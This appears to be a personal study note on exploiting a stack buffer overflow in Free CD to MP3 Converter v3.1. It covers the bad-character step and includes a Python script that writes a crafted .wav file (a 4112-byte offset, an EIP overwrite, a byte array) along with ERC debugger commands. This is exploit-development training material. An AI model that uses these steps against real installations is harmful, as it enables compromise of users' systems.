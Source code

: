 # Stack Based Buffer Overflow 
##  Exploiting Free CD to MP3 Converter v3.1

> Before we control ther EIP, we need to determine any characters we need to avoid using in our payload

It is important to find bad chars because depending on the processing each program executes on our input, certain characters may tell the program that it has reached the end of the input. This may happen even though it may not have reached the end of the input yet.

### Generating Bad characters

To generate bad characters, we can use the ERC plugin and generate a .bin file and a .txt file 
To do so, we can use the `ERC --bytearray` command

Next step is to update our code:
```
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07...
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```
Now we load this .wav file in and see if there are any differences bertween our input in memory and the .bin file.

### Comparing Input 

First need to copy the ESP address: `0014F974`, then runnning the command:
`ERC --compare 0014F974 C:\Users\testing\Desktop\ByteArray_1.bin`

This command compares byte by byte both our input and chars we generated  

![](../../../Assets/Pasted%20image%2020220723014521.jpg) 

As we see the null byte %00 has truncated the reamining input, so it is a bad character.

Now we try again with elimating bad characters: `ERC --bytearray -bytes 0x00`

After running the .wav file and loading into the debugger, we can see that both the inputs match
`
Now we know to avoid 0x00 In our EIP address or shellcode.

**Characters such as `0x00`, `0x0a`, `0x0d` are generally bad characters**

